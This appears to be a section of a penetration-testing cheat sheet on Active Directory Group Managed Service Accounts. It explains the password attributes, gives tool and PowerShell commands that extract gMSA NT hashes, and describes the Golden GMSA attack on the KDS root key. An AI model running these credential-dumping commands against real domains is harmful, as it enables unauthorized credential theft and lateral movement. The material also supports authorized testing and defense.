 ## Reading GMSA Password

> User accounts created to be used as service accounts rarely have their password changed. Group Managed Service Accounts (GMSAs) provide a better approach (starting in the Windows 2012 timeframe). The password is managed by AD and automatically rotated every 30 days to a randomly generated password of 256 bytes.

### GMSA Attributes in the Active Directory 
* `msDS-GroupMSAMembership` (`PrincipalsAllowedToRetrieveManagedPassword`) - stores the security principals that can access the GMSA password.
* `msds-ManagedPassword` - This attribute contains a BLOB with password information for group-managed service accounts.
* `msDS-ManagedPasswordId` - This constructed attribute contains the key identifier for the current managed password data for a group MSA.
* `msDS-ManagedPasswordInterval` - This attribute is used to retrieve the number of days before a managed password is automatically changed for a group MSA.


### Extract NT hash from the Active Directory

* [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader) (C#)
  ```ps1
  # https://github.com/rvazarkar/GMSAPasswordReader
  GMSAPasswordReader.exe --accountname SVC_SERVICE_ACCOUNT
  ```

* [gMSADumper (Python)](https://github.com/micahvandeusen/gMSADumper)
   ```powershell
  # https://github.com/micahvandeusen/gMSADumper
  python3 gMSADumper.py -u User -p Password1 -d domain.local
  ```
  
* Active Directory Powershell
  ```ps1
  $gmsa =  Get-ADServiceAccount -Identity 'SVC_SERVICE_ACCOUNT' -Properties 'msDS-ManagedPassword'
  $blob = $gmsa.'msDS-ManagedPassword'
  $mp = ConvertFrom-ADManagedPasswordBlob $blob
  $hash1 =  ConvertTo-NTHash -Password $mp.SecureCurrentPassword
  ```

* [gMSA_Permissions_Collection.ps1](https://gist.github.com/kdejoyce/f0b8f521c426d04740148d72f5ea3f6f#file-gmsa_permissions_collection-ps1) based on Active Directory PowerShell module


## Forging Golden GMSA

> One notable difference between a **Golden Ticket** attack and the **Golden GMSA** attack is that they no way of rotating the KDS root key secret. Therefore, if a KDS root key is compromised, there is no way to protect the gMSAs associated with it.

:warning: You can't "force reset" a gMSA password, because a gMSA's password never changes. The password is derived from the KDS root key and `ManagedPasswordIntervalInDays`, so every Domain Controller can at any time compute what the password is, what it used to be, and what it will be at any point in the future.
